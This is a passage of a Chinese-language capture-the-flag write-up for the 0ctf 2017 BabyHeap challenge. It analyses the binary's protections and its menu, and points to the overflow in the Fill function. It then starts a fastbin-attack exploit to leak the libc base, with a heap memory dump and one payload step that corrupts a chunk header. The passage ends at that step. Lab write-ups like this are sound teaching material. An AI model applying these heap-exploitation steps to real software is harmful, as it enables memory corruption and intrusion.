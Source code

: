 ## 0ctf 2017 BabyHeap
### 1. 题目分析
```
  Arch:     amd64-64-little
  RELRO:    Full RELRO
  Stack:    Canary found
  NX:       NX enabled
  PIE:      PIE enabled
```
> 如果`RELRO: Partial RELRO`, 有可能是格式化字符串。

**结论**: 保护全开，一般是有关堆方面的题。
### 2. 程序运行
```
===== Baby Heap in 2017 =====
1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
Command:
```
**1. Allocate**
> 分配内存

**2. Fill**
> 填充内容，可填充任意字长的内容，漏洞就出在此处。

**3. Free**
> 释放内存。

**4. Dump**
> 打印内容。

### 3. 漏洞分析（借鉴自[gd师傅的看雪专栏](https://bbs.pediy.com/thread-223461.htm)）
**考察知识点 : fastbin attack**
#### One Part
> 下面这个是理论前提:
> >利用 fastbin attack 即 double free 的方式泄露 libc 基址，当只有一个 small/large chunk 被释放时，small/large chunk 的 fd 和 bk 指向 main_arena 中的地址，然后 fastbin attack 可以实现有限的地址写能力

下面就围绕这点展开论述:
* First Step
```
alloc(0x60)
alloc(0x40)
对应的内存:                                           
0x56144ab7e000:	0x0000000000000000	0x0000000000000071 --> chunk0 header
0x56144ab7e010:	0x0000000000000000	0x0000000000000000
0x56144ab7e020:	0x0000000000000000	0x0000000000000000
0x56144ab7e030:	0x0000000000000000	0x0000000000000000
0x56144ab7e040:	0x0000000000000000	0x0000000000000000
0x56144ab7e050:	0x0000000000000000	0x0000000000000000
0x56144ab7e060:	0x0000000000000000	0x0000000000000000
0x56144ab7e070:	0x0000000000000000	0x0000000000000051 --> chunk1 header
0x56144ab7e080:	0x0000000000000000	0x0000000000000000
0x56144ab7e090:	0x0000000000000000	0x0000000000000000
0x56144ab7e0a0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0b0:	0x0000000000000000	0x0000000000000000
```
* Second Step
```
Fill(0x10, 0x60 + 0x10, "A" * 0x60 + p64(0) + p64(0x71)) --> 开始破坏chunk1 header
```